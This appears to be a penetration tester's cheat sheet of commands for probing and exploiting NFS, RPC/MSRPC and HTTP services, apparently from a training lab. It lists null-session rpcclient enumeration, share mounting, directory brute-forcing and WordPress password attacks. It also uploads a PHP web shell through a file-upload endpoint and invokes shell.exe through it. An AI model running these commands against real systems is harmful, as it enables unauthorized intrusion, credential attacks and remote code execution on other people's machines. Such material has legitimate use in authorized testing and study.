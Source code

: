 // NFS (:111/tcp|:2049/tcp|:20048/tcp) - PROBING & EXPLOITATION
nmap -sV --script=nfs-showmount <IP>
df -k
mount -t nfs <IP>:/srv/Share /tmp/share
mount -t cifs -o username=<USER>,vers=1.0 //10.11.1.5/c$ /mnt
mount -o nolock 10.11.1.72:/home /mnt/nfs-share
mount -t cifs -o vers=1.0 //10.11.1.136/'Bob Share' /mnt/SUFFERANCE

// RPCBIND(:111/tcp) & MSRPC (:135/tcp) - PROBING & EXPLOITATION
rpcinfo -p <IP>
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall
rpcinfo -s <IP>
rpcinfo -p <IP>
rpcclient -U "" -N <IP>
rpcclient -U "john" 10.11.1.221
rpcclient -U "" -N <IP> --command=enumprivs -N <IP>
showmount -a <IP>
showmount -e <IP>
showmount -d <IP>

// HTTP (:80/tcp|:443/tcp) - PROBING & EXPLOITATION
# /usr/share/dirb/wordlists/common.txt
# /usr/share/seclists/Discovery/Web-Content/common.txt
# /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
# /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt
curl http://<IP>:<PORT>/robots.txt
curl http://<IP>:<PORT>/sitemap.xml
dirsearch -r -f http://<IP>:<PORT> --extensions=htm,html,asp,aspx,txt,php,jsp,js,cgi w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --request-by-hostname -t 40 > dirsearch
gobuster dir -k -u http://<IP>:<PORT> -x "htm,html,asp,aspx,txt,php,jsp,js,cgi" -w /usr/share/seclists/Discovery/Web-Content/common.txt -e -l -s "200,204,301,302,307" -o gobusted
nikto -host http://<IP>:<PORT> -C all -maxtime=30s -o nikto.txt
view-source:http://10.11.1.223/index.php?page=posts&post_id=69&com_status=open
curl 127.0.0.1:8080/manager/shell.jsp
curl -F "files=@shell.php" http://10.11.1.123/books/apps/jQuery-File-Upload/server/php/index.php
http://10.11.1.123/books/apps/jquery-file-upload/server/php/files/shell.php?cmd=shell.exe
https://beautifier.io/
wpscan --url 10.11.1.234 -v --detection-mode aggressive --enumerate ap,at,cb,dbe,u --api-token <MYTOKEN> --password-attack wp-login > wpscan
wpscan --url http://10.11.1.251/wp/ --wp-content-dir 10.11.1.251/wp/wp-content/ -v --enumerate ap,at,cb,dbe,u --password-attack wp-login > wpscan
whatweb <IP>
davest <IP>
nmap -p80 -sVC <IP>
nmap -p80 --script http-vuln* <IP>
